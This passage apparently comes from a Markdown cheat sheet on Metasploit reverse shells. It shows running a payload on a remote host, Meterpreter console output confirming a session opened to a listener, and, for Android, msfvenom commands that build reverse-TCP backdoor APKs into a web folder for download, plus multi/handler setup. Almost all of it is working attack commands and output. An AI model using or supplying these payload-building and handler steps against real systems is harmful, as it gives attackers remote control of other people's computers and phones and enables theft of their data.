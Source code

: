 
_Run on Remote host:_
```
chmod u+x shell_file

./shell_file
```



```
exploit

[*] Started reverse TCP handler on 192.168.10.193:6666
[*] Sending stage (1017704 bytes) to 192.168.10.192
[*] Meterpreter session 1 opened (192.168.10.193:6666 -> 192.168.10.192:33150) at 2025-01-02 12:35:36 +0530
```






#### For Android: [worked]

```
msfconsole
```


```
msfvenom -p android/meterpreter/reverse_tcp lhost=192.168.10.193 lport=8888 > /var/www/html/file.apk

msfvenom -p android/meterpreter/reverse_tcp lhost=192.168.10.193 lport=8888 -o /var/www/html/test.apk
```


```
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp

set lhost 192.168.10.193
set lport 8888

show options
```


```
exploit
```




Which method works best depends on the available tools and environment. 


### Links:
- [Msfvenom for Beginners](https://www.hackingarticles.in/msfvenom-tutorials-beginners/)
